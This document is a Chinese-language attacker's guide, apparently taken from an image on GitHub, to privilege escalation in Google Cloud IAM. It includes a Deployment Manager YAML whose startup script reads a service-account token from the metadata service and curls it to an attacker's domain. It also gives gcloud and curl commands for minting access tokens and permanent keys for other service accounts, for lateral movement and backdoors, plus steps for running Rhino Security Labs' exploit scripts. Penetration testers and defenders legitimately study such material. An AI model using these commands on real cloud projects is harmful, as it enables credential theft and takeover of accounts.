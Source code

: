 #### IAM 权限
	绝大多数权限提升技术都是围绕成员的角色和权限进行的。 请记住，GCP 权限用于决定成员有权访问哪些资源
	● https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/
	● https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/
##### Deploymentmanager.deployments.create
	此权限允许您将资源部署为“cloudservices.gserviceaccount.com”，默认情况下具有编辑者角色。 攻击者可以滥用此权限来创建计算实例，添加启动脚本以通过元数据服务收集服务帐户访问令牌，最后将其发送回攻击者。
	第一步是创建用于设置计算引擎实例的 YAML 文件。
	请注意，启动脚本向元数据服务发出 curl 请求，然后它获取响应并将其发送到攻击者的计算机。 这个配置文件可以在下面找到，
	只需将 <ATTACKER-DOMAIN-HERE> 行替换为您的域或 ip：
	resources:
	- name: vm-created-by-deployment-manager
	  type: compute.v1.instance
	  properties:
	    zone: us-central1-a
	    machineType: zones/us-central1-a/machineTypes/n1-standard-1
	    disks:
	       deviceName: boot
	    type: PERSISTENT
	    boot: true
	    autoDelete: true
	    initializeParams:
	        sourceImage: projects/debian-cloud/global/images/family/debian-9
	    networkInterfaces:
	    - network: global/networks/default
	      accessConfigs:
	        - name: External NAT
	        type: ONE_TO_ONE_NAT
	    metadata:
	      items:
	      - key: startup-script
	        value: |
	            #!/bin/bash
	            apt-get update
	            apt-get install -y curl 
	            curl http://<ATTACKER-DOMAIN-HERE>/gce_token -d $(curl
	            http://169.254.169.254/computeMetadata/v1beta1/instance/service-accounts/default/token)
	    serviceAccounts:
	    - email: default
	      scopes:
	        - https://www.googleapis.com/auth/cloud-platform
	接下来，您需要使用部署管理器命令创建计算引擎
	如下所示：
	gcloud deployment-manager deployments create <DEPLOYMENT-NAME> --config <CONFIG-FILE-NAME>.yaml
	计算引擎启动后，您应该会收到带有新创建的访问令牌的回调
##### iam.roles.update
	角色只是权限的集合。 iam.roles.update 权限允许您向自定义角色添加其他权限。 如果您将自定义角色应用于您的帐户，您可以向该角色添加额外的权限，以便您升级您的权限，如下所示：
	> gcloud iam roles update <ROLE-NAME> --project PROJECT-ID>--permissions=<PERMISSION-1,PERISSION-2>
##### iam.serviceAccounts.getAccessToken
	在 gcloud 中，访问令牌充当帐户的临时凭证。 获得对另一个用户的访问令牌的访问权限允许攻击者以受害者身份向 gcloud 进行身份验证。 不幸的是，我找不到 gcloud cli 命令来执行此操作，但我们可以使用
	谷歌API如下图：
	>  curl -X POST -H "Authorization: Bearer "$(gcloud auth print-access-token) -H "Content-Type: application/json; charset=utf-8" -d "{ 'scope': [ 'https://www.googleapis.com/auth/iam','https://www.googleapis.com/auth/cloud-platform' ] }" https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/<TARGET-SERVICE-ACCOUNT>:generateAccessToken
##### iam.serviceAccountKeys.create
	iam.serviceAccounts.getAccessToken 允许您创建临时凭证，但此权限允许您创建附加到服务帐户的永久密钥。 然后可以使用这些密钥登录 gcloud
	> gcloud iam service-accounts keys create OUTPUT-FILE --iam-account=IAM_ACCOUNT
##### iam.serviceAccounts.actAs
	此权限允许您使用另一个服务帐户创建资源。例如，如果您想创建一个计算实例并将另一个服务帐户附加到该 VM，您将需要此权限以及创建 VM 的权限。
	在以下需要此权限才能工作的小节中可以找到更多示例。
	Cloudfunctions.functions.create
	此方法需要设置以下权限：
	● iam.serviceAccounts.actAs
	● Cloudfunctions.functions.create
	● Cloudfunctions.functions.sourceCodeSet
	● Cloudfunctions.functions.create
	在这里，我们正在创建一个云函数作为另一个服务帐户，当调用该服务帐户时，它将获取服务帐户访问令牌并将其发送到攻击者的机器。
	● 创建云功能
	● 附加服务帐号到云功能
	● 调用云功能
	    ○ 使用元数据服务获取访问令牌
	● 向攻击者发送凭据
#### GCP IAM 权限提升工具
	Rhino Security Labs 还创建了一个工具，可用于搜索和利用这些错误配置：
	● https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation
	要使用此工具，您必须拥有有效的访问令牌和项目 ID。可以通过多种方式检索访问令牌和项目 ID，但最流行的方式之一是通过 SSRF。
	首先运行 enumerate_member_permissions.py 脚本
	> python3 enumerate_member_permissions.py --project xxxxx
	请注意，如果您没有正确的权限，该命令将失败并且您将无法检查权限升级，但是您可以使用蛮力方法，手动尝试所有的利用，直到一个有效。
	如果您确实拥有正确的权限，该命令将运行并将所有内容保存到一个文件夹中。 下一步是运行“python3 check_for_privesc.py”命令。 鉴于当前的 IAM 政策，这将检查您可以危害其他账户的所有可能方式
	根据结果，您将能够破坏多个帐户。 要实际运行漏洞利用，您需要移动到漏洞利用文件夹。 然后你只需选择你的漏洞利用，用你的详细信息编辑 python 文件，然后运行脚本。
	为其他帐户创建服务帐户密钥，如果成功，这将允许您以该服务帐户身份登录，这对于横向移动非常有用
	在文件iam.serviceAccountKeys.create.py中我们需要输入项目 id 和我们的目标服务帐户。 之后，运行脚本，它会询问您的访问令牌，脚本完成后，它将创建并输出目标服务帐户密钥
	接下来，您必须对“privateKeyData”进行 base64 解码，它应该为您提供一个 json blob。 此 json blob 是您的凭据。 获得凭据后，您可以使用 gcloud 通过以下命令以该用户身份登录。
	> gcloud auth activate-service-account --key-file=test_cred.json
	如果用户拥有比我们更高的权限，那么我们只需执行权限升级，如果他们没有，那么我们可以使用它进行横向移动。 此外，我们还可以使用相同的技术对用户进行后门。
	查看“check_for_privesc.py”脚本的输出即可了解您可以做什么